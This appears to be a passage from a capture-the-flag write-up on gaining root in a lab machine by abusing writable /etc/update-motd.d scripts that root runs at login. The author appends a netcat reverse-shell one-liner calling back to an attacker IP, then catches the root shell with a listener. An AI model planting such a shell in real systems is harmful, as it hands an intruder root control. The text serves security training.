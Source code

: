 ```bash
printf " * Support:        https://ubuntu.com/advantage\n"
```

All the files are writable by james. Those files are executed by root. To get root I added a reverse shell at the end of `/etc/update-motd.d/10-help-text`.  It would be executed at the next login. 

```bash
james@osboxes:~$ cat /etc/update-motd.d/10-help-text

... 

printf "\n"
printf " * Documentation:  https://help.ubuntu.com\n"
printf " * Management:     https://landscape.canonical.com\n"
printf " * Support:        https://ubuntu.com/advantage\n"

mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg
```

Then I logged out, started a netcat listener, and connected back.

```bash
$ ssh james@target
james@target's password:
```

My listener got the connection back from the root user.

```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.113.129 38428

whoami
root

cat /root/root.txt
REDACTED
```
